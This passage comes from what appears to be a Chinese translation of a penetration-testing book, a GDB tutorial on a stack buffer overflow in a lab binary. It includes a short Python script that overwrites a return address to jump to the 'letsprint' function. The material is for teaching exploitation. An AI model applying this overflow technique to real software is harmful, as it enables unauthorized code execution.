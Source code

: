 ```
$ run $(cat input.txt)
```

然后，代码将触发断点：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00236.jpeg)

按下*C*然后*Enter*继续：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00237.jpeg)

现在，通过查看错误，我们看到我们注入的`b`字符在里面。在这一点上，我们做得很好。现在我们知道了我们的注入形式，让我们尝试使用`disassemble`命令执行`letsprint`函数：

```
$ disassemble letsprint
```

前面命令的输出可以在以下截图中看到：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00238.jpeg)

我们得到了`letsprint`函数中的第一条指令，`push rbp`，地址为`0x00000000004005e3`，我们需要的是真实地址；我们也可以使用`print`命令来获取地址：

```
$ print letsprint
```

前面命令的输出可以在以下截图中看到：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00239.jpeg)

现在我们有了地址，让我们尝试使用 Python 构建我们的利用，因为我们不能直接传递地址：

```
#!/usr/bin/python
from struct import *

buffer = ''
buffer += 'a'*24
buffer += pack("<Q", 0x0000004005e3)
f = open("input.txt", "w")
f.write(buffer)
```

然后，我们执行它以生成新的输入：

```
$ ./exploit
```

现在，在 GDB 中，运行以下命令：

```
$ run $(cat input.txt)
```

然后，它将触发断点：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00240.jpeg)
